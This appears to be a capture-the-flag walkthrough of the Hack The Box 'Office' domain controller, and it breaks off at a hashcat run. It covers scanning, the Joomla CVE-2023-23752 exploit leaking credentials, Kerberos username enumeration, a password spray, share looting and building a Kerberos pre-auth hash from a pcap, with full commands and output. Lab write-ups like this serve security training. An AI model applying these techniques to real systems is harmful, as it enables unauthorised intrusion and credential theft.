










# Office
## Host file setup

```python
sudo nxc smb 10.129.230.226 --generate-hosts-file /etc/hosts
[sudo] password for kali: 
SMB         10.129.230.226  445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:None)
```

## Enumeration

### Open ports
```python
nmap -p- --min-rate=2000 -sT dc.office.htb
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-12 16:59 +0100
Nmap scan report for dc.office.htb (10.129.230.226)
Host is up (0.014s latency).
rDNS record for 10.129.230.226: DC.office.htb
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49668/tcp open  unknown
59909/tcp open  unknown
59917/tcp open  unknown
59944/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.35 seconds
```

### Nmap
```python
nmap -p 53,80,88,139,389,443,445,464,593,636,3268,3269,5985,9389 -A --min-rate=2000 -sT dc.office.htb 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-12 17:02 +0100
Nmap scan report for dc.office.htb (10.129.230.226)
Host is up (0.013s latency).
rDNS record for 10.129.230.226: DC.office.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| http-robots.txt: 16 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/
|_http-title: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-13 00:02:28Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: office.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
|_ssl-date: 2026-05-13T00:03:54+00:00; +8h00m03s from scanner time.
443/tcp  open  ssl/http      Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: 403 Forbidden
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: office.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
|_ssl-date: 2026-05-13T00:03:53+00:00; +8h00m02s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: office.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-13T00:03:54+00:00; +8h00m03s from scanner time.
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: office.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
|_ssl-date: 2026-05-13T00:03:53+00:00; +8h00m02s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|10|11|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts: DC, www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## HTTP (80)

### Nuclei
```python
nuclei -u http://office.htb/                                                                         

[http-trace:trace-request] [http] [info] http://office.htb/
[cookies-without-secure] [javascript] [info] office.htb ["3815f63d17a9109b26eb1b8c114159ac"]
[waf-detect:apachegeneric] [http] [info] http://office.htb/
[ldap-metadata] [javascript] [info] office.htb:389 ["DomainControllerFunctionality: 7","BaseDN: dc=389","DnsHostName: DC.office.htb","DefaultNamingContext: DC=office,DC=htb","DomainFunctionality: 7","ForestFunctionality: 7"]
[smb-enum-domains] [javascript] [info] office.htb:445 ["DomainName: office.htb"]
[smb-enum] [javascript] [info] office.htb:445 ["ForestName: office.htb","OSVersion: 10.0.20348","NetBIOSComputerName: DC","NetBIOSDomainName: OFFICE","DNSComputerNamen: DC.office.htb","DNSComputerName: DC.office.htb"]
[smb-version-detect:smb-version] [javascript] [info] office.htb:445 ["SMB 2.1"]
[smb-os-detect] [javascript] [info] office.htb:445 ["Windows Server 2022, Version 21H2"]
[smb2-server-time] [javascript] [info] office.htb:445 ["SystemTime: 2026-05-13T00:14:36.000Z ServerStartTime: 2009-04-22T19:24:48.000Z"]
[smb2-capabilities] [javascript] [info] office.htb:445 ["["DFSSupport","LargeMTU","Leasing"]"]
[ldap-anonymous-login-detect] [javascript] [medium] office.htb
[joomla-detect:version] [http] [info] http://office.htb/administrator/manifests/files/joomla.xml ["4.2.7"]
[joomla-manifest-file] [http] [medium] http://office.htb/administrator/manifests/files/joomla.xml
[http-missing-security-headers:strict-transport-security] [http] [info] http://office.htb/
[http-missing-security-headers:permissions-policy] [http] [info] http://office.htb/
[http-missing-security-headers:x-content-type-options] [http] [info] http://office.htb/
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://office.htb/
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://office.htb/
[http-missing-security-headers:content-security-policy] [http] [info] http://office.htb/
[http-missing-security-headers:clear-site-data] [http] [info] http://office.htb/
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://office.htb/
[http-missing-security-headers:missing-content-type] [http] [info] http://office.htb/
[mixed-passive-content:img] [http] [info] http://office.htb/ ["http://office.htb/images/asdf.png"]
[form-detection] [http] [info] http://office.htb/
[robots-txt-endpoint:endpoints] [http] [info] http://office.htb/robots.txt ["/installation/","/layouts/","/modules/","/tmp/","/joomla/administrator/","/api/","/administrator/","/bin/","/cache/","/includes/","/cli/","/components/","/language/","/libraries/","/logs/","/plugins/"]
[corebos-htaccess] [http] [info] http://office.htb/htaccess.txt
[cgi-printenv] [http] [medium] http://office.htb/cgi-bin/printenv.pl
[host-header-injection] [http] [info] http://office.htb/
[apache-detect] [http] [info] http://office.htb/ ["Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28"]
[openssl-detect] [http] [info] http://office.htb/ ["OpenSSL/1.1.1t"]
[php-detect] [http] [info] http://office.htb/ ["8.0.28"]
[robots-txt] [http] [info] http://office.htb/robots.txt
[CVE-2023-23752] [http] [medium] http://office.htb/api/index.php/v1/config/application?public=true
[missing-cookie-samesite-strict] [http] [info] http://office.htb/ ["3815f63d17a9109b26eb1b8c114159ac=eccpudug1h5igkgd2f9duum1fi; path=/; HttpOnly"]
[metatag-cms] [http] [info] http://office.htb/ ["Joomla! - Open Source Content Management"]
[tech-detect:font-awesome] [http] [info] http://office.htb/
[tech-detect:php] [http] [info] http://office.htb/
[caa-fingerprint] [dns] [info] office.htb
```
- Joomla version 4.2.7
- Joomla manifest file `http://office.htb/administrator/manifests/files/joomla.xml`
- CVE-2023-23752?
- robots.txt

### Joomscan
```python
joomscan -u http://office.htb/

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 4.2.7

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing : 
http://office.htb/administrator/components
http://office.htb/administrator/modules
http://office.htb/administrator/templates
http://office.htb/images/banners


[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://office.htb/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://office.htb/robots.txt 

Interesting path found from robots.txt
http://office.htb/joomla/administrator/
http://office.htb/administrator/
http://office.htb/api/
http://office.htb/bin/
http://office.htb/cache/
http://office.htb/cli/
http://office.htb/components/
http://office.htb/includes/
http://office.htb/installation/
http://office.htb/language/
http://office.htb/layouts/
http://office.htb/libraries/
http://office.htb/logs/
http://office.htb/modules/
http://office.htb/plugins/
http://office.htb/tmp/


[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found


Your Report : reports/office.htb/
```

## CVE-2023-23752

https://github.com/K3ysTr0K3R/CVE-2023-23752-EXPLOIT

```python
python3 CVE-2023-23752.py -u http://office.htb/
┏┓┓┏┏┓  ┏┓┏┓┏┓┏┓  ┏┓┏┓━┓┏━┏┓
┃ ┃┃┣ ━━┏┛┃┫┏┛ ┫━━┏┛ ┫ ┃┗┓┏┛
┗┛┗┛┗┛  ┗━┗┛┗━┗┛  ┗━┗┛ ╹┗┛┗━
Coded By: K3ysTr0K3R --> Hug me ʕっ•ᴥ•ʔっ
Updated By: muhammedikbalyildiz

[*] Checking if target is vulnerable
[+] Target is vulnerable
[*] Launching exploit against: http://office.htb/
---------------------------------------------------------------------------------------------------------------
[*] Checking if target is vulnerable for usernames at path: /api/index.php/v1/users?public=true
[+] Target is vulnerable for usernames
[+] Gathering user(s) for: http://office.htb/
[+] Name: Tony Stark
[+] Username: Administrator
[+] Email: Administrator@holography.htb
[+] Group: Super Users
---------------------------------------------------------------------------------------------------------------
[*] Checking if target is vulnerable for credentials at path: /api/index.php/v1/config/application?public=true
[+] Target is vulnerable for credentials
[+] Gathering credential(s) for: http://office.htb/
[+] User: root
[+] Password: H0lOgrams4reTakIng0Ver754!
```

Looks like the exploit worked

```python
root:H0lOgrams4reTakIng0Ver754!
```
Ill try these credentials on the administrator logon

These credentials dont work!

Im thinking there could be password reuse

## Finding valid usernames

```python
kerbrute userenum --dc dc.office.htb -d office.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 05/12/26 - Ronnie Flathers @ropnop

2026/05/12 17:49:59 >  Using KDC(s):
2026/05/12 17:49:59 >  	dc.office.htb:88

2026/05/12 17:50:02 >  [+] VALID USERNAME:	 administrator@office.htb
2026/05/12 17:50:24 >  [+] VALID USERNAME:	 Administrator@office.htb
2026/05/12 17:50:35 >  [+] VALID USERNAME:	 etower@office.htb
2026/05/12 17:50:35 >  [+] VALID USERNAME:	 ewhite@office.htb
2026/05/12 17:50:35 >  [+] VALID USERNAME:	 dwolfe@office.htb
2026/05/12 17:50:35 >  [+] VALID USERNAME:	 dlanor@office.htb
2026/05/12 17:50:35 >  [+] VALID USERNAME:	 dmichael@office.htb
```
Found some valid usernames

I can try some things like AS-REP roasting!

None of the users are AS-REP roastable, but i could try a password spray since i do have a password

## Password spray leads to user compromise

```python
nxc smb dc.office.htb -u users.txt -p 'H0lOgrams4reTakIng0Ver754!' --continue-on-success
SMB         10.129.230.226  445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:None)
SMB         10.129.230.226  445    DC               [-] office.htb\Administrator:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.129.230.226  445    DC               [-] office.htb\etower:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.129.230.226  445    DC               [-] office.htb\ewhite:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.129.230.226  445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754! 
SMB         10.129.230.226  445    DC               [-] office.htb\dlanor:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.129.230.226  445    DC               [-] office.htb\dmichael:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
```
Looks like ive compromised the user `dwolfe`

### Access as `dwolfe`

```python
nxc smb dc.office.htb -u dwolfe -p 'H0lOgrams4reTakIng0Ver754!' --shares
SMB         10.129.230.226  445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:None)
SMB         10.129.230.226  445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754! 
SMB         10.129.230.226  445    DC               [*] Enumerated shares
SMB         10.129.230.226  445    DC               Share           Permissions     Remark
SMB         10.129.230.226  445    DC               -----           -----------     ------
SMB         10.129.230.226  445    DC               ADMIN$                          Remote Admin
SMB         10.129.230.226  445    DC               C$                              Default share
SMB         10.129.230.226  445    DC               IPC$            READ            Remote IPC
SMB         10.129.230.226  445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.230.226  445    DC               SOC Analysis    READ            
SMB         10.129.230.226  445    DC               SYSVOL          READ            Logon server share
```
The user has read access on an interesting share!

The user has no access on WINRM

### Dumping all the users

```python
nxc smb dc.office.htb -u dwolfe -p 'H0lOgrams4reTakIng0Ver754!' --rid-brute 20000
SMB         10.129.230.226  445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:None)
SMB         10.129.230.226  445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754! 
SMB         10.129.230.226  445    DC               498: OFFICE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.230.226  445    DC               500: OFFICE\Administrator (SidTypeUser)
SMB         10.129.230.226  445    DC               501: OFFICE\Guest (SidTypeUser)
SMB         10.129.230.226  445    DC               502: OFFICE\krbtgt (SidTypeUser)
SMB         10.129.230.226  445    DC               512: OFFICE\Domain Admins (SidTypeGroup)
SMB         10.129.230.226  445    DC               513: OFFICE\Domain Users (SidTypeGroup)
SMB         10.129.230.226  445    DC               514: OFFICE\Domain Guests (SidTypeGroup)
SMB         10.129.230.226  445    DC               515: OFFICE\Domain Computers (SidTypeGroup)
SMB         10.129.230.226  445    DC               516: OFFICE\Domain Controllers (SidTypeGroup)
SMB         10.129.230.226  445    DC               517: OFFICE\Cert Publishers (SidTypeAlias)
SMB         10.129.230.226  445    DC               518: OFFICE\Schema Admins (SidTypeGroup)
SMB         10.129.230.226  445    DC               519: OFFICE\Enterprise Admins (SidTypeGroup)
SMB         10.129.230.226  445    DC               520: OFFICE\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.230.226  445    DC               521: OFFICE\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.230.226  445    DC               522: OFFICE\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.230.226  445    DC               525: OFFICE\Protected Users (SidTypeGroup)
SMB         10.129.230.226  445    DC               526: OFFICE\Key Admins (SidTypeGroup)
SMB         10.129.230.226  445    DC               527: OFFICE\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.230.226  445    DC               553: OFFICE\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.230.226  445    DC               571: OFFICE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.230.226  445    DC               572: OFFICE\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.230.226  445    DC               1000: OFFICE\DC$ (SidTypeUser)
SMB         10.129.230.226  445    DC               1101: OFFICE\DnsAdmins (SidTypeAlias)
SMB         10.129.230.226  445    DC               1102: OFFICE\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.230.226  445    DC               1106: OFFICE\Registry Editors (SidTypeGroup)
SMB         10.129.230.226  445    DC               1107: OFFICE\PPotts (SidTypeUser)
SMB         10.129.230.226  445    DC               1108: OFFICE\HHogan (SidTypeUser)
SMB         10.129.230.226  445    DC               1109: OFFICE\EWhite (SidTypeUser)
SMB         10.129.230.226  445    DC               1110: OFFICE\etower (SidTypeUser)
SMB         10.129.230.226  445    DC               1111: OFFICE\dwolfe (SidTypeUser)
SMB         10.129.230.226  445    DC               1112: OFFICE\dmichael (SidTypeUser)
SMB         10.129.230.226  445    DC               1113: OFFICE\dlanor (SidTypeUser)
SMB         10.129.230.226  445    DC               1114: OFFICE\tstark (SidTypeUser)
SMB         10.129.230.226  445    DC               1117: OFFICE\GPO Managers (SidTypeGroup)
SMB         10.129.230.226  445    DC               1118: OFFICE\web_account (SidTypeUser)
```
Here are the users, ill adapt the command to append all the users to a user list

```python
nxc smb dc.office.htb -u dwolfe -p 'H0lOgrams4reTakIng0Ver754!' --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt
```
This command pulled out all the username and wrote them to a userfile

```python
cat users.txt   
Administrator
Guest
krbtgt
DC$
PPotts
HHogan
EWhite
etower
dwolfe
dmichael
dlanor
tstark
web_account
```
I now have all the users

Also worth noting there are no kerberoastable users!

## SOC Analysis share

```python
smbclient //dc.office.htb/'SOC Analysis' -U 'dwolfe'%'H0lOgrams4reTakIng0Ver754!'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed May 10 19:52:24 2023
  ..                                DHS        0  Wed Feb 14 10:18:31 2024
  Latest-System-Dump-8fbc124d.pcap      A  1372860  Mon May  8 01:59:00 2023

		6265599 blocks of size 4096. 1262783 blocks available
smb: \> get Latest-System-Dump-8fbc124d.pcap 
getting file \Latest-System-Dump-8fbc124d.pcap of size 1372860 as Latest-System-Dump-8fbc124d.pcap (7246.9 KiloBytes/sec) (average 7246.9 KiloBytes/sec)
smb: \>
```
Found a pcap file i will investigate using wireshark

## Wireshark analysis of pcap file



This traffic looks interesting!



Using these values i should be able to craft a crackable hash!

```python
a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
```
This is the cipher value for the user `tstark`

From the context i can make a guess on the format of the hash so i can crack it

```python
$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
```

This is a Kerberos Pre-Auth Encrypted Timestamp hash, and the key details from your packet are:

- etype: 18 → AES256-CTS-HMAC-SHA1-96
- realm: OFFICE.HTB
- user: tstark

### Cracking the hash

```python
hashcat tstark.hash /usr/share/wordlists/rockyou.txt

